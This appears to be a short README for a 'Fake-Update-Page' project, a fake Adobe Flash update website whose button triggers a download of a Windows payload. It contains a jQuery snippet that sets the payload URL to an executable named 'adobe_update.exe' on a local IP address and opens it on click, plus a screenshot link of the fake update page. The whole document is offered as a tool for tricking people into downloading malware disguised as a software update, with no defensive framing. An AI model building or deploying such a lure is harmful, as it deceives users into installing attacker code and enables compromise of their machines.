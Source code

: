 # Fake-Update-Page
Fake Update Website  ( On Click Automatic Download Windows Payload )

## Set Payload URL:-

```
    $(document).ready(function (){

        $('#CF_OPEN').on('click', function(){

            var payload_url = "http://192.168.0.108/payload/adobe_update.exe";
            window.open(payload_url, '_blank');

        });

    });
```

##Preview :-

![Fake-Adobe-Flash-Update](https://user-images.githubusercontent.com/26626045/78744552-848f1b00-797f-11ea-969a-0f4827a80050.PNG)
